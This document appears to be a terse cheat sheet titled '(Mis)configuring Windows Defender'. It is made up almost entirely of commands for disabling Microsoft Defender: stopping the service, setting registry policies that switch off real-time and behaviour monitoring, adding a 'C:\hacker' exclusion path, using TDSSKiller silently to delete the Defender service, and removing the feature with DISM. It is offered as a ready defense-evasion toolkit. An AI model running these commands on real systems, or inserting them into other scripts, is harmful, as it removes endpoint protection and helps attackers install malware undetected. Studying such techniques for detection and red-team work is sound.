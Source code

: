 # (Mis)configuring Windows Defender

## Disabling Windows Defender
### Service
    net stop “WinDefend”
    sc config “WinDefend” start=disabled

### Registry (see also [https://gist.github.com/pe3zx](https://gist.github.com/pe3zx))

    reg add “HKLM\System\CurrentControlSet\Services\WinDefend” /v “Start” /t REG_DWORD /d “4” /f
    reg add “HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection” /v “DisableBehaviorMonitoring” /t REG_DWORD /d “1” /f
    reg add “HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection” /v “DisableIOAVProtection” /t REG_DWORD /d “1” /f
    reg add “HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection” /v “DisableAccessProtection” /t REG_DWORD /d “1” /f
    reg add “HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection” /v “DisableRealtimeMonitoring” /t REG_DWORD /d “1” /f
    reg add “HKLM\Software\Policies\Microsoft\Windows Defender\Real-Time Protection” /v “DisableScanOnRealtimeEnable” /t REG_DWORD /d “1” /f

## Configuring exclusions
    wmic /namespace:\\root\microsoft\windows\defender path msft_mppreference call add exclusionpath=”C:\hacker\”
    powershell.exe -c Add-MpPreference -ExclusionPath “C:\hacker”

## Bypassing Windows Defender and EDR with an Anti-Rootkit Tool (TDSSKiller)
    TDSSKiller - https://www.bleepingcomputer.com/download/tdsskiller/
    tdsskiller.exe -accepteula -silent -dcsvc WinDefend

## Using DISM to Deactivate Windows Defender
    Deployment Image Servicing and Management (DISM.exe) 
    dism /online /Disable-Feature /FeatureName:Windows-Defender /remove /NoRestart /quiet